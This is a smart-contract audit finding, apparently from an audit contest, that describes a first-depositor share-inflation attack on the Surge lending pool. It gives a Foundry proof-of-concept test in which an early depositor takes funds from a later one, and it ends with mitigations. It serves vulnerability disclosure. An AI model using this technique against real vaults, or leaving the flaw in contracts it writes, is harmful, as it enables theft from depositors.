 chaduke

high

# First depositor attack: first (early depositors) can steal funds from later depositors.

## Summary
First (early depositors) can steal funds from later depositors by manipulating the price of pool tokens. 

## Vulnerability Detail
Below we show how the first Depositor, Bob,  (actually all early depositors can benefit as well) can steal funds from later depositors, for example, from Alice.

1) Initially, Bob has 1e18+1 loan tokens and Alice has 2e18 loan tokens. 

2) Bob calls ``deposit`` to deposit 1 loan token and he gets back 1 pool token share. The price of the pool token is 1/share.

[https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L307-L343](https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L307-L343)

3) Bob sends 1e18 loan tokens to the pool, now the price per share becomes ``1e18+1/share``.

4) Alice also calls ``deposit()`` to deposit ``2e18`` loan tokens to the pool, she gets back 1 pool share and the ``totalSupply = 2``, and the price per share becomes ``1.5e18/share``. 

5) Bob calls ``withdraw()`` to withdraw his 1 share, and he gets 1.5e18 loan tokens. He gains ``0.5e18-1`` loan tokens. 

6) Alice withdraws her 1 pool share, and gets ``1.5e18+1`` loan tokens.  She loses ``0.5e18-1`` loan tokens. 

7) Bob steals ``0.5e18-1`` loan tokens from Alice. 

8) The following code POC confirms the finding:

```javascript
function testFirstDepositorAttack() external {
        uint amount = 3e18+1;
        MockERC20 collateralToken = new MockERC20(0, 18);
        MockERC20 loanToken = new MockERC20(amount, 18);
        Pool pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 1e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        loanToken.transfer(address(1), 2e18);

        loanToken.approve(address(pool), 1);
        pool.deposit(1);
        loanToken.transfer(address(pool), 1e18);
     
        vm.prank(address(1));
        loanToken.approve(address(pool), 2e18);
        vm.prank(address(1));
        pool.deposit(2e18); 

        pool.withdraw(type(uint).max);
        assertEq(loanToken.balanceOf(address(this)), 1.5e18);
        
        vm.prank(address(1));
        pool.withdraw(type(uint).max);
        assertEq(loanToken.balanceOf(address(1)), 1.5e18+1);
    }   
```

## Impact
First depositor attack: first (early depositors) can steal funds from later depositors.

## Code Snippet

## Tool used
VSCode, foundry

Manual Review

## Recommendation
- Have a minimum deposit limit
- From the first depositor, send 1000 shares (corresponds to 1000 wei of loan tokens, which is nothing) to a dead address. In this way, it will be very expensive to inflate the price per share. 

